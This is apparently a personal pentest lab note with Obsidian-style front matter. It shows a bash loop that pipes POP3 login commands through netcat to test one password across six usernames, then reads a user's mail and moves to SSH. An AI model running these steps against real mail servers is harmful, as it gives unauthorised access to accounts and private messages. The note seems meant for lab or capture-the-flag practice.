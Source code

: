 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Continuing from [[Port 4555 - James]]

#### POP3.sh

---
```bash - kali
for user in alice bob carlos david earl frank; do

 (echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC $TARGET 110; done
```

```bash - kali
chmod +x pop3.sh
```

```bash - kali
./pop3.sh
```

---

If script above does not work, do manually:

We see alice has 2 messages.

```bash - kali
nc -nvC $TARGET 110
```

```bash - kali
USER alice
```

```bash - kali
PASS abcd
```

```bash - kali
RETR 1
```

```bash - kali
RETR 2
```

```bash - kali
ssh alice@$TARGET
```
